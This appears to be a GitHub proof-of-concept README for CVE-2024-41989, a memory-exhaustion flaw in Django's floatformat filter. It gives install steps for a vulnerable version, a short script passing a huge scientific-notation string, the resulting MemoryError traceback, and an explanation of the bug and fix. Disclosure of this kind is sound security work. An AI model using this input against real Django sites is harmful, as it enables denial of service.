 # CVE-2024-41989 exploit PoC

## Description

A security issue was found in Django. If 'floatformat' received a string representation of a number in scientific notation with a large exponent, it could lead to significant memory consumption. To avoid this, decimals with more than 200 digits are now returned as is.

## Exploit

Here is the exploit of CVE-2024-41989:

1. Install python and pip
2. Install Django 5.0 before 5.0.8 and 4.2 before 4.2.15 
   ```sh
   pip install Django==5.0
   ```
3. Create new python file, test with this script
    ```py
    from django.template.defaultfilters import *

    # A string representation of a number in scientific notation with a large exponent
    num = "10e10000000000000000"
    print("Run -> Error")
    floatformat(num)
    print("Done!")
    ```
4. Error return 
    ```sh
    Run -> Error
    Traceback (most recent call last):
    File "/home/frenda/code/hhack/test/test.py", line 6, in <module>
        floatformat(num)
    File "/home/frenda/.local/lib/python3.12/site-packages/django/template/defaultfilters.py", line 167, in floatformat
        m = int(d) - d
            ^^^^^^
    MemoryError
    ```

### Explain

- The line `m = int(d) - d` cause the issue. 
- The variable `d` is a `decimal.Decimal` object 
  - `d = Decimal(str(float(text)))`, casting from user input
  - Take a look at `.local/lib/python3.12/site-packages/django/template/defaultfilters.py`
- Casting `d` object to python `Decimal` is costly when the `text` contains scientific notation like `"10e10000000000000000"`
- The attacker can use that to cause a issue.

---

Fixed with latest Django version `5.1.2`